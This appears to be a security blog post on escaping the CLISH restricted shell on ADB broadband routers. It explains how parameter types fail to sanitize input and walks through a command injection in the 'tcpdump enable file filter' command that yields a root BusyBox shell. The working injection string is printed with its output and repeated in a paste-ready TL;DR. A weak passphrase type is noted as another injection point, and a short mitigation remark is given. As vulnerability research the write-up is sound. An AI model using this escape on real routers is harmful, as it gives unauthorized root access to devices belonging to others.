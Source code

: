# Escaping from CLISH
## Short intro in CLISH

```
********************************************
*            ADB BROADBAND                 *
*                                          *
*      WARNING: Authorised Access Only     *
********************************************

Welcome  
ADB#
```

CLISH is a restricted shell which supports only a set of predefined
commands. Is seems to be developed by a single person, Graeme McKerrell,
 and was last updated 2013-04-26.

### Views
These are used to  define "views" which contain a set of commands. If you type in `config terminal` for example the shell can open another view with configuration command and with `exit` you can go back to the view.</p>

### Commands
A command has basically a name, zero or more parameter and an action.
The name is constant and there is no such thing like subcommands. So it's very
simple and a name may be for example `ping` or `config terminal`.
The interesting parts are the parameters and the action. The action are
some shell commands(!) in which the parameters can be used as environment
variables. To disallow [command injection][1] you can restrict the parameter
by using a type.

### Types
A type can be defined with a *regex*,  as *selection* of values or as a
*integer*. By executing a command and while typing each parameter is matched
against its type.

As an additional countermeasure against code injection the characters
\`|$<>&()# are escaped by *adding a backslash in front* of them.

## Problem

So what exactly is the problem? Everything seems fine?
All parameter defined with types using integers and selections seem perfectly
fine if you don't screw up completely.

But what about regular expressions? In the official documentation
"as a reference" there is this type definition:

```xml
<PTYPE name="STRING"
    pattern="[^\-]+"
      help="String"/>
```

This looks pretty OK. We can't use backslashes or use the parameter
as a flag argument because "-" is forbidden. Lets look at the firmware.
Did they implement STRING is differently? YES:

```xml
<PTYPE name="STRING"  
    pattern="[^`]*"
        help="String"/>
```
So.. uhm.. They don't want the backquote (\`) in the string. This
is fine but what about the backslash and minus? Lets try it. Used here
with ping. Other implementations may have ping restricted to
IP-addresses. The ping definition looks something like this:  

### Screwing with Ping

```xml
<COMMAND name="ping"  
         help="send ICMP ECHO_REQUEST to network hosts">

  <PARAM name="destination"
     help="Destination host or IP address"
     ptype="STRING"/>

  <ACTION>exec ping "${destination}"</ACTION>
</COMMAND>
```

```sh
ADB# ping `/bin/sh`  
          ^
destination  String
```

Yes thats what probably what they expected.

```sh
ADB# ping \  
sh: syntax error: unterminated quoted string  
```

Uh oh.. This was translated to `ping "\"`.

```sh
ADB# ping \$SHELL  
ping: bad address '\/bin/clish'
```

The "$" was escaped but an additional backslash escaped the backslash: ```ping "\\$USER"```
While this is funny we can't actually execute something with it. So we have to dig a bit deeper and I found this command:

### Accessing the Shell

```xml
<COMMAND name="tcpdump enable file filter" help="tcpdump enable output file filter">  
    <PARAM name="ifname" help="interface name" ptype="IFNAMES"/>
    <PARAM name="filename" help="log file name" ptype="STRING"/>
    <PARAM name="filter" help="pcap filter" ptype="PCAPFILTER"/>
        <ACTION>
            . /etc/clish/tcpdump.sh "file" "filter" "${ifname}" "${filename}" "${filter}"
        </ACTION>
</COMMAND>  
```

```
ADB# tcpdump enable file filter br0 \ "; sh -c sh \"

ERROR:   Output File has to be stored in a connected mounted USB memory device (ex. /mnt/sda1/ )

HELP:    ...


BusyBox v1.17.3 (2015-09-23 17:35:23 CEST) built-in shell (ash)  
Enter 'help' for a list of built-in commands.

/root $ echo $USER
admin
```

**Hello shell!**

### Some extra candy

While writing this post if took a second look into the type definitions. There was a very interesting one.

```xml
<PTYPE name="WIFI_PASSPHRASE"
       pattern=".........*"
       help="More than 8 char string"/>
```
If you try to write code injection with this one make sure your code has at least 8 characters! ;)

## Mitigation

**RTFM!**
Sanitizing insecure strings by using the type definition from the reference should be enough.

## TL;DR
Paste the following code:
`tcpdump enable file filter br0 \ "; /bin/sh -c /bin/sh \"`

[1][https://www.owasp.org/index.php/Command_Injection]

